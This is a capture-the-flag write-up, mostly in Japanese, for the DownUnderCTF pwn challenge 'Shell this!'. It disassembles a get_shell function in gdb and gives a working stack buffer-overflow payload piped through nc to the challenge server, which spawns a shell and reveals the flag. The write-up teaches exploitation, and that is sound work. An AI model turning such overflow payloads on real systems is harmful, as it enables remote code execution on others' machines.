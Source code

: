 # Shell this!:pwn:100pts
Somebody told me that this program is vulnerable to something called remote code execution?  
I'm not entirely sure what that is, but could you please figure it out for me?  
nc chal.duc.tf 30002  
Attached files:  
- shellthis.c (sha256: 82c8a27640528e7dc0c907fcad549a3f184524e7da8911e5156b69432a8ee72c)  
- shellthis (sha256: af6d30df31f0093cce9a83ae7d414233624aa8cf23e0fd682edae057763ed2e8)  

[shellthis.c](shellthis.c)　　　　[shellthis](shellthis)  

# Solution
shellthis.cを見るとget_shellなる関数がある。  
vulnに存在するBOFでこれを呼び出してやればいい。  
```bash
$ gdb ./shellthis
~~~
gdb-peda$ disass get_shell
Dump of assembler code for function get_shell:
   0x00000000004006ca <+0>:     push   rbp
   0x00000000004006cb <+1>:     mov    rbp,rsp
   0x00000000004006ce <+4>:     mov    edx,0x0
   0x00000000004006d3 <+9>:     mov    esi,0x0
   0x00000000004006d8 <+14>:    lea    rdi,[rip+0xf9]        # 0x4007d8
   0x00000000004006df <+21>:    call   0x400570 <execve@plt>
   0x00000000004006e4 <+26>:    nop
   0x00000000004006e5 <+27>:    pop    rbp
   0x00000000004006e6 <+28>:    ret
End of assembler dump.
```
0x00000000004006caだとわかった。  
あとは位置を調整してやる。  
```bash
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xca\x06\x40\x00\x00\x00\x00\x00" ; cat) | nc chal.duc.tf 30002
Welcome! Can you figure out how to get this program to give you a shell?
Please tell me your name: ls
flag.txt
shellthis
cat flag.txt
DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```
flag.txt内にflagが書かれていた。  

## DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}